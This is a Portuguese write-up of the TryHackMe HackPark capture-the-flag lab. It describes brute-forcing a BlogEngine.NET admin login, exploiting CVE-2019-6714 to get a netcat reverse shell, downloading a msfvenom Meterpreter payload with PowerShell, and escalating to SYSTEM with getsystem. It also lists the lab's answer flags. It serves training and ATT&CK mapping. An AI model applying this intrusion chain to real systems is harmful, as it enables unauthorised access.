> 🚩 **FLAG DE USUÁRIO: `759bd8af507517bcfaede78a21a73e39`**


> 🚩 **FLAG DE ROOT/ADMINISTRADOR: `7e13d97f05f7ceb9881a3eb3d78d3e72`**

---

## ⛓ Linha do Tempo do Comprometimento

```
[26/08 23:24 GMT] RECONHECIMENTO (Nmap)
    10.66.163.246 → HTTP (IIS 8.5, "hackpark amusements"), RDP (host: HACKPARK)
    ↓
[FASE 2] ENUMERAÇÃO WEB (Gobuster)
    /Account/login.aspx descoberto — painel administrativo ASP.NET (BlogEngine.NET)
    ↓
[23:52] FASE 3 — FORÇA BRUTA (Burp Intruder)
    admin : 1qaz2wsx → 302 Found (/setup) — credencial válida confirmada
    ↓
[FASE 4] IDENTIFICAÇÃO DE CVE
    BlogEngine.NET 3.3.6 → CVE-2019-6714 (Directory Traversal / RCE) — EDB-ID 46353
    ↓
[FASE 5] EXPLORAÇÃO — SHELL INICIAL
    Upload de PostView.ascx malicioso → shell reversa (netcat) → iis apppool\blog
    ↓
[00:39] FASE 6 — MSFVENOM + DOWNLOAD
    shell.exe (meterpreter/reverse_tcp) gerado, servido via HTTP, baixado via PowerShell
    ↓
[00:41] FASE 7 — SESSÃO METERPRETER
    exploit/multi/handler → sessão aberta — HACKPARK / Windows Server 2012 R2
    ↓
[FASE 8] ESCALAÇÃO DE PRIVILÉGIOS
    getsystem → Named Pipe Impersonation (PrintSpooler) → NT AUTHORITY\SYSTEM
    ↓
[27/08 00:41+ GMT] FASE 9 — FLAGS CAPTURADAS
    user.txt (jeff): 759bd8af507517bcfaede78a21a73e39
    root.txt (Administrator): 7e13d97f05f7ceb9881a3eb3d78d3e72 ✓
    ↓
DESAFIO CONCLUÍDO — Comprometimento total de HACKPARK (usuário → SYSTEM)
```

---

## 🗺 Mapeamento Investigativo

| Fase | Ferramenta/Técnica | Achado |
|------|--------------------|--------|
| Reconhecimento | Nmap (`-p- --min-rate=5000` / `-sV -sC`) | Portas 80 (IIS 8.5) e 3389 (RDP) — host `HACKPARK`, Windows Server 2012 R2 |
| Enumeração | Gobuster (porta 80) | Painel administrativo em `/Account/login.aspx` |
| Força bruta | Burp Suite Intruder | Credencial `admin:1qaz2wsx` confirmada via resposta `302` distinta |
| Identificação de CVE | Exploit-DB (busca por versão) | BlogEngine.NET 3.3.6 → CVE-2019-6714 (EDB-ID 46353) |
| Exploração | Upload de `PostView.ascx` via editor de posts | Shell reversa como `iis apppool\blog` (netcat) |
| Upgrade de shell | msfvenom + PowerShell (`Invoke-WebRequest`) | Payload Meterpreter baixado e executado no alvo |
| Sessão | `exploit/multi/handler` | Sessão Meterpreter estabelecida — `HACKPARK` |
| Escalação | `getsystem` (Named Pipe Impersonation) | Privilégio elevado para `NT AUTHORITY\SYSTEM` |
| Pós-exploração | Meterpreter `ls`/`cat` | `user.txt` (jeff) e `root.txt` (Administrator) coletados |

---

## 🚨 Artefatos e Indicadores Identificados

| Tipo | Indicador | Contexto |
|------|-----------|----------|
| Alvo | `10.66.163.246` (`HACKPARK`) | Windows Server 2012 R2, IIS 8.5 — TryHackMe: HackPark |
| Serviços expostos | `80/tcp` (HTTP), `3389/tcp` (RDP) | RDP revela hostname/domínio via NTLM sem autenticação |
| Endpoint vulnerável | `/Account/login.aspx` | Painel administrativo do BlogEngine.NET, sem rate-limiting |
| Credenciais comprometidas | `admin : 1qaz2wsx` | Obtidas via força bruta (Burp Intruder) |
| Vulnerabilidade crítica | CVE-2019-6714 / EDB-ID 46353 | Directory Traversal → RCE em BlogEngine.NET ≤ 3.3.6, parâmetro `theme` |
| Arquivo malicioso | `PostView.ascx` | Enviado via editor de posts, executado em `/App_Data/files` |
| Payload de pós-exploração | `shell.exe` (msfvenom, `windows/meterpreter/reverse_tcp`) | Baixado via `Invoke-WebRequest`, capturado por `multi/handler` |
| Contexto inicial | `iis apppool\blog` | Identidade do processo IIS explorado via CVE-2019-6714 |
| Técnica de escalação | Named Pipe Impersonation (PrintSpooler variant) | `getsystem` → `NT AUTHORITY\SYSTEM` |
| Vetor alternativo (não utilizado) | `System Scheduler.lnk` (Desktop do Administrador) | Indício do vetor manual de privesc originalmente previsto pela sala |
| Flag de usuário | `759bd8af507517bcfaede78a21a73e39` | `C:\Users\jeff\Desktop\user.txt` |
| Flag de root | `7e13d97f05f7ceb9881a3eb3d78d3e72` | `C:\Users\Administrator\Desktop\root.txt` |
| Técnica (OWASP) | A07:2021 – Identification and Authentication Failures | Ausência de rate-limiting/lockout no login administrativo |
| Técnica (MITRE ATT&CK) | `T1110` (Brute Force) | Ataque de força bruta contra `/Account/login.aspx` |
| Técnica (MITRE ATT&CK) | `T1190` (Exploit Public-Facing Application) | Exploração de CVE-2019-6714 no BlogEngine.NET |
| Técnica (MITRE ATT&CK) | `T1105` (Ingress Tool Transfer) | Download de `shell.exe` via PowerShell `Invoke-WebRequest` |
| Técnica (MITRE ATT&CK) | `T1134` (Access Token Manipulation) | Escalonamento via Named Pipe Impersonation (`getsystem`) |

---

## ✅ Resumo das Flags

| # | Flag | Valor | Origem |
|---|------|-------|--------|
| 🚩 Flag de Usuário | `user.txt` | `759bd8af507517bcfaede78a21a73e39` | `C:\Users\jeff\Desktop\user.txt` |
| 🚩 Flag de Root/Administrador | `root.txt` | `7e13d97f05f7ceb9881a3eb3d78d3e72` | `C:\Users\Administrator\Desktop\root.txt` |

---

## 📚 Referências

- [TryHackMe — HackPark](https://tryhackme.com/room/hackpark)
- [Exploit-DB 46353 — BlogEngine.NET 3.3.6 Directory Traversal / RCE](https://www.exploit-db.com/exploits/46353)
- [CVE-2019-6714 — NVD](https://nvd.nist.gov/vuln/detail/CVE-2019-6714)
- [OWASP — A07:2021 Identification and Authentication Failures](https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/)
- [MITRE ATT&CK T1110 — Brute Force](https://attack.mitre.org/techniques/T1110/)
- [MITRE ATT&CK T1190 — Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/)
- [MITRE ATT&CK T1134 — Access Token Manipulation](https://attack.mitre.org/techniques/T1134/)

---